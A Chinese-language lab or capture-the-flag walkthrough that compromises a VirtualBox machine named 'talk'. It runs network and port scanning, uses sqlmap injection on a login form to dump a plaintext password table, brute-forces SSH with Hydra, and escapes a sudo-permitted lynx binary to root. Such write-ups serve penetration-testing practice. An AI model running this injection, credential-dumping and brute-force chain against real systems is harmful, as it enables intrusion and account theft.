



# 信息搜集
主机发现

```
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.8    08:00:27:b4:88:c0       PCS Systemtechnik GmbH
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.114 seconds (121.10 hosts/sec). 4 responded
```

端口扫描

```
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:21 EST
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.0014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B4:88:C0 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:12 EST
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
MAC Address: 08:00:27:B4:88:C0 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

# 漏洞利用
先看一下80端口有什么

注册一下

登录进去看见一个聊天框

目录扫描

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.8 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 185] [--> http://192.168.21.8/css/]                                                  
/db                   (Status: 301) [Size: 185] [--> http://192.168.21.8/db/]                                                   
/img                  (Status: 301) [Size: 185] [--> http://192.168.21.8/img/]                                                  
/js                   (Status: 301) [Size: 185] [--> http://192.168.21.8/js/]                                                   
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

抓取一下登录post请求页面，使用sqlmap进行注入

```
$ sqlmap -l 1.txt -p "username" --batch -dbs
[*] chat
[*] information_schema
[*] mysql
[*] performance_schema

$ sqlmap -l 1.txt -p "username" --batch -D chat --tables
+-----------+
| user      |
| chat      |
| chat_room |
+-----------+

$ sqlmap -l 1.txt -p "username" --batch -D chat -T user --columns --dump
+-----------+--------------+
| Column    | Type         |
+-----------+--------------+
| email     | varchar(255) |
| password  | varchar(30)  |
| phone     | varchar(255) |
| userid    | int(11)      |
| username  | varchar(30)  |
| your_name | varchar(60)  |
+-----------+--------------+

$ sqlmap -l 1.txt -p "username" --batch -D chat -T user -C username,password --dump
+----------+-----------------+
| username | password        |
+----------+-----------------+
| pao      | pao             |
| nona     | myfriendtom     |
| tina     | davidwhatpass   |
| jerry    | thatsmynonapass |
| david    | adrianthebest   |
| admin    | admin           |
+----------+-----------------+
```

把得到的用户密码，爆破ssh

```
$ hydra -L user.txt -P pass.txt ssh://192.168.21.8
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-08 00:13:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
[DATA] attacking ssh://192.168.21.8:22/
[22][ssh] host: 192.168.21.8   login: nona   password: thatsmynonapass                                                          
[22][ssh] host: 192.168.21.8   login: jerry   password: myfriendtom                                                             
[22][ssh] host: 192.168.21.8   login: david   password: davidwhatpass                                                           
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-08 00:13:21
```

# 提权
登录nona用户，具有sudo权限

```
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
```

lynx命令是纯文本模式的网页浏览器，不支持图形、音视频等多媒体信息

```
nona@talk:~$ sudo -u root /usr/bin/lynx
然后按下!
root@talk:/home/nona# id
uid=0(root) gid=0(root) groups=0(root)
```
